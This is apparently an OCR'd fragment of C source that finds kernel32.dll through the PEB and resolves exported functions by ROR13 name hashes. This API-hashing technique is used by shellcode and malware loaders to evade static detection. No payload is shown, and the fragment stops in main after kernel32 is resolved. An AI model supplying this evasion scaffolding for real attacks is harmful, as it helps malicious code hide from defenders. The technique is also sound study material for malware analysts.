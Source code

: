 ```c
        char c = *s;
        if (c >= 'a' && c <= 'z') c -= 32;
        h = ror13(h) + c;
    }
    return h;
}

// --- fetch PEB via GS:[0x60] using inline asm ---
static MY_PEB* get_peb(void) {
    MY_PEB* peb;
    __asm__ __volatile__(
        "mov %%gs:0x60, %0\n"
        : "=r"(peb)
    );
    return peb;
}

// --- walk modules looking for our hash ---
static HMODULE get_module_base(DWORD target_hash) {
    PMY_PEB peb = get_peb();
    PMY_LIST_ENTRY head = &peb->Ldr->InMemoryOrderModuleList;
    for (PMY_LIST_ENTRY e = head->Flink; e != head; e = e->Flink) {
        PMY_LDR_DATA_TABLE_ENTRY ent = CONTAINING_RECORD(
            e, MY_LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks
        );
        // convert Unicode name to ANSI on-the-fly
        WCHAR* w = ent->BaseDllName.Buffer;
        char tmp[64] = {0};
        int len = min(ent->BaseDllName.Length/2, 63);
        for (int i = 0; i < len; i++) tmp[i] = (char)w[i];
        if (hash_str(tmp) == target_hash)
            return (HMODULE)ent->DllBase;
    }
    return NULL;
}

// --- parse exports to resolve a function by name-hash ---
static FARPROC get_export(HMODULE mod, DWORD func_hash) {
    BYTE* base = (BYTE*)mod;
    IMAGE_DOS_HEADER* dos = (IMAGE_DOS_HEADER*)base;
    IMAGE_NT_HEADERS* nt  = (IMAGE_NT_HEADERS*)(base + dos->e_lfanew);
    IMAGE_EXPORT_DIRECTORY* exp = (IMAGE_EXPORT_DIRECTORY*)
      (base + nt->OptionalHeader.DataDirectory
                      [IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

    DWORD* names = (DWORD*)(base + exp->AddressOfNames);
    WORD*  ords  = (WORD* )(base + exp->AddressOfNameOrdinals);
    DWORD* funcs = (DWORD*)(base + exp->AddressOfFunctions);

    for (DWORD i = 0; i < exp->NumberOfNames; i++) {
        char* name = (char*)(base + names[i]);
        if (hash_str(name) == func_hash)
            return (FARPROC)(base + funcs[ords[i]]);
    }
    return NULL;
}

int main() {
    // 1) Resolve kernel32.dll base
    DWORD k32_hash = hash_str("kernel32.dll");
    HMODULE k32 = get_module_base(k32_hash);
    if (!k32) { printf("kernel32 not found\n"); return 1; }

```